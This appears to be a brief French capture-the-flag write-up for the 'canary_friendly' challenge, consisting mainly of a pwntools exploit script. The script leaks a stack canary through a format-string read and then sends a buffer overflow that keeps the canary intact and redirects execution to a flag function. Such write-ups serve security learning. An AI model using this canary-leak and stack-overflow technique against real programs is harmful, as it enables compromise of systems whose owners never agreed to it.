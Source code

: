 # Description
[Qwack] : J'ADORE LES CANARDS, RESPECTEZ LES CANARDS. (h0nk h0nk)
Accès au challenge : `nc ctf.midnightflag.fr 9023`

# Write UP
```python
#!/usr/bin/python

from pwn import *

elf = ELF('./canary_friendly')

r = remote('ctf.midnightflag.fr', 9023)

# Stack canary at offset 27 on the stack
r.sendline('%27$x')

r.recvuntil('remember : \n')

res = r.recv().splitlines()

canary = int(res[1], 16)

log.success('Canary: %s' % hex(canary))

pld = "A"*(16+64)
pld += p32(canary)
pld += p32(0)*3
pld += p32(elf.sym['flag'])

r.sendline(pld)

r.interactive()
```

# Flag
-
